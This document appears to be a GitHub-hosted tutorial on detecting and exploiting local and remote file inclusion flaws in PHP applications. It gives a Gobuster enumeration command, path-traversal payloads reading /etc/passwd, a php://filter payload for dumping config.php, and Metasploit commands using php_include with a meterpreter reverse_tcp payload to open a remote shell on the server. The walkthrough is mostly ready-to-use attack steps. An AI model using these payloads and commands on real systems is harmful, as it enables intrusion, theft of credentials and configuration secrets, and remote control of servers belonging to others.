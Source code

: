 
##  1️ Detect LFI & RFI Using Gobuster  
###  Gobuster for Directory & File Enumeration
First, use Gobuster to find hidden directories or vulnerable parameters.  

```bash
gobuster dir -u http://target.com/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```
 This helps find **files like `vulnerable.php`** that may be vulnerable to LFI/RFI.

---

##  2. Exploit LFI Using Burp Suite
###  Burp Suite to Test LFI Manually
1. Open Burp Suite → Turn on Intercept.
2. Capture the request for `vulnerable.php?file=xyz`.
3. Modify the parameter to test LFI:
   ```
   vulnerable.php?file=../../../../etc/passwd
   ```
4. Forward the request → If successful, you'll see `/etc/passwd`.

 You can also use PHP Wrappers for deeper exploitation:
```
vulnerable.php?file=php://filter/convert.base64-encode/resource=config.php
```
Then decode the base64 output to view sensitive information.

---

## 3️ Exploit RFI Using Metasploit
###  Use Metasploit to Get a Reverse Shell
1. Start Metasploit:
   ```bash
   msfconsole
   ```
2. Use the RFI Exploit Module:
   ```bash
   use exploit/unix/webapp/php_include
   ```
3. Set the target URL:
   ```bash
   set TARGETURI /vulnerable.php?file=
   set RHOSTS target.com
   set PAYLOAD php/meterpreter/reverse_tcp
   set LHOST your-ip
   set LPORT 4444
   exploit
   ```
 If successful, you will get a Meterpreter shell, allowing you to execute commands on the server!

---
